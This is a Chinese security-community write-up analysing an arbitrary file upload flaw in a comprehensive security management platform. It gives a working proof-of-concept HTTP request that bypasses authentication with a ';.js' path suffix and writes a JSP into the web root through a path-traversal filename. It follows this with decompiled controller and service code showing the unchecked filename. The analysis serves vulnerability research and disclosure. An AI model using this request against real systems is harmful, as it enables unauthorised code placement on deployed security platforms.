

# 某综合安防系统 - 任意文件上传漏洞分析 - 先知社区

某综合安防系统 - 任意文件上传漏洞分析

- - -

# 0x00 简介

综合安防管理平台管理平台基于 " 统一软件技术架构" 理念设计，采用业务组件化技术，满足平台在业务上的弹性扩展。该平台适用于全行业通用综合安防业务，对各系统资源进行了整合和集中管理，实现统一部署、配置、管理和调度

# 0x01 漏洞概述

该产品存在任意文件上传历史漏洞

# 0x02 影响版本

历史版本

# 0x03 漏洞复现

先上 Poc

```bash
POST /center/api/files;.js HTTP/1.1
User-Agent: PostmanRuntime/7.29.2
Accept: */*
Postman-Token: 1ac225cc-bdbe-4176-b806-a9a7c796ee33
Host: xxxxxxxxxxxxxx
Connection: close
Content-Type: multipart/form-data; boundary=--------------------------180188939909122941133151
Cookie: JSESSIONID=A0A01DAF36544051C724ABCCB20A0EA6
Content-Length: 286

----------------------------180188939909122941133151
Content-Disposition: form-data; name="file"; filename="../../../../../bin/tomcat/apache-tomcat/webapps/clusterMgr/hello.jsp"
Content-Type: application/octet-stream

hello
----------------------------180188939909122941133151--
```

然后访问：[http://192.168.43.72/clusterMgr/hello.jsp;.js](http://192.168.43.72/clusterMgr/hello.jsp;.js)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231129155910-2e0f74ba-8e8d-1.png)

# 0x04 漏洞分析

CAS 配置文件如下：/bin/tomcat/apache-tomcat/webapps/center/WEB-INF/classes/cas-client.properties，对*.eot,*.woff,*.ttf,*.svg,*.gif,*.css,*.js,*.json 等文件不进行鉴权

```bash
cas.ignore.pattern=/,*.html,/login,*.eot,*.woff,*.ttf,*.svg,*.gif,*.css,*.js,*.json,/casLogin,*.ico,*.icon,*.png,*.map,/api/meta/qrcode,/api/session,/api/session/captcha,/api/locales,/api/meta,/api/menus,/api/users/*/password,/api/fileUpload/*,/center/api/fileUpload/*,/api/clientInstall/LatestVersion,/api/clientResourceInstall/LatestVersion,/center/api/clientInstall/LatestVersion,/center/api/clientResourceInstall/LatestVersion,/api/machines/*/steps,/api/verifyCodeImage,/api/encryptParam,/api/webLogin,/api/modifyPassword,/api/negotiation,/api/webMachines,/api/webDelMachines,/api/webAlerts,/api/webResources,/api/webMenus,/api/settings/firewalls/*,/api/installMachineList/*,/api/clientInstall/*,/api/task/*,/api/bic/*,/api/installation/*,/api/external/*,/api/logsOnline/*
```

文件上传函数，没有对 filename 进行过滤  
/bin/tomcat/apache-tomcat/webapps/center/WEB-INF/classes/com/hikvision/center/module/faq/controller/KnowledgeController.class

```bash
@RequestMapping(
    value = {"/files"},
    method = {RequestMethod.POST}
)
public Object uploadFile(@RequestParam(value = "file",required = false) MultipartFile file, HttpServletResponse response, @RequestParam(value = "upload",required = false) MultipartFile upload, HttpServletRequest request) throws IOException {
    if (request.getCharacterEncoding() == null) {
        request.setCharacterEncoding("UTF-8");
    }

    String CKEditor = request.getParameter("CKEditor");
    ResultData responseBean = new ResultData();
    String result;
    if (file == null) {
        if (upload == null) {
            if (StringUtils.isBlank(CKEditor)) {
                responseBean.setCode("0x0011775d");
                responseBean.setMsg(LocaleTextUtil.getErrorText(responseBean.getCode()));
                return responseBean;
            }

            result = "<script type=\"text/javascript\">window.parent.CKEDITOR.tools.callFunction('0', '/download1/xxx', '?');</script>";
            String languageType = LocaleTextUtil.getLocalLanguage();
            if ("zh_CN".equals(languageType)) {
                result = new String(result.replace("?", "请选择文件").getBytes("UTF-8"), "ISO-8859-1");
            } else {
                result = new String(result.replace("?", "choose file please").getBytes("UTF-8"), "ISO-8859-1");
            }

            response.getOutputStream().print(result);
            return null;
        }

        file = upload;
    }

    result = null;
    User user = BusLogUtil.getUser();
    if (user != null) {
        result = user.getUserId();
    }

    String filename = file.getOriginalFilename();
    this.logger.debug(HikLog.toLog(HikLog.message("uploadFile", new String[]{"username", "filename", "CKEditor"})), new Object[]{result, filename, CKEditor});
    JSONObject json = null;

    try {
        json = this.knowledgeService.uploadFile(file);
        this.operationRecordService.sendLogToCenter("uploadFile", true, "file", "", filename, "", "", "knowledgeBase", "", 0, "", "");
        if (StringUtils.isBlank(CKEditor)) {
            responseBean.setCode("0");
            responseBean.setMsg((String)null);
            responseBean.setData(json);
            return responseBean;
        } else {
            String result = "<script type=\"text/javascript\">window.parent.CKEDITOR.tools.callFunction('0', '?', '');</script>";
            result = result.replace("?", new String(json.getString("link").getBytes("UTF-8"), "ISO-8859-1"));
            response.setContentType("text/html;charset=utf-8");
            response.getOutputStream().print(result);
            return null;
        }
    } catch (Exception var14) {
        String code = "";
        if (var14 instanceof ProgramException) {
            code = ((ProgramException)var14).getCode();
                     } else {
                     code = "0x00137759";
                     }

                     this.logger.error(HikLog.toLog(HikLog.message("upload file error", new String[]{"errorCode", "error"})), code, var14);
                     this.operationRecordService.sendLogToCenter("uploadFile", false, "file", "", filename, "", "", "knowledgeBase", "", 1, "", code);
                     if (StringUtils.isBlank(CKEditor)) {
                     responseBean.setCode("0x00137759");
                     responseBean.setMsg(LocaleTextUtil.getErrorText(responseBean.getCode()));
                     responseBean.setData(json);
                     return responseBean;
                     } else {
                     String result = "<script type=\"text/javascript\">window.parent.CKEDITOR.tools.callFunction('0', '/download1/xxx', '?');</script>";
                     result = result.replace("?", LocaleTextUtil.getErrorText("0x00137759"));
                     response.getOutputStream().print(result);
                     return null;
                     }
                     }
                     }
```

KnowledgeServiceImpl#uploadFile，直接拼接文件名 filename

```bash
public JSONObject uploadFile(MultipartFile file) {
        String uuid = UUID.randomUUID().toString();
        String filename = null;

        try {
            filename = new String(file.getOriginalFilename().getBytes(System.getProperty("sun.jnu.encoding")), "UTF-8");
        } catch (UnsupportedEncodingException var9) {
            filename = file.getOriginalFilename();
        }

        String resourcePath = AddressUtil.getResourcePath() + File.separator + "resource" + File.separator + uuid;
        File resourceFile = new File(resourcePath);
        if (!resourceFile.exists()) {
            resourceFile.mkdirs();
        }

        JSONObject json = new JSONObject();

        try {
            file.transferTo(new File(resourcePath + File.separator + filename));
        } catch (Exception var8) {
            this.logger.error(HikLog.toLog(HikLog.message("upload file fail", new String[]{"e"})), var8);
            throw new ProgramException("0x00137759");
        }

        json.put("id", uuid);
        json.put("filename", filename);
        String link = AddressUtil.getFAQResourceUrl() + "/resource/" + uuid + "/" + filename;
        link = link.replace("\\", "/");
        json.put("link", link);
        return json;
    }
```

我们知道，Spring 在处理 url 时，removeSemicolonContentInternal 方法，主要的功能是

1.  移除所有的分号
2.  移除分号后面直到下一个斜杠”/”之间的所有字符

拼接的/center/api/files;.js 可以绕过鉴权，同时经过 removeSemicolonContentInternal 方法 ==》得到/center/api/files，分发到正确的路由，导致文件上传

# 0x05 修复方式

联系官方打补丁
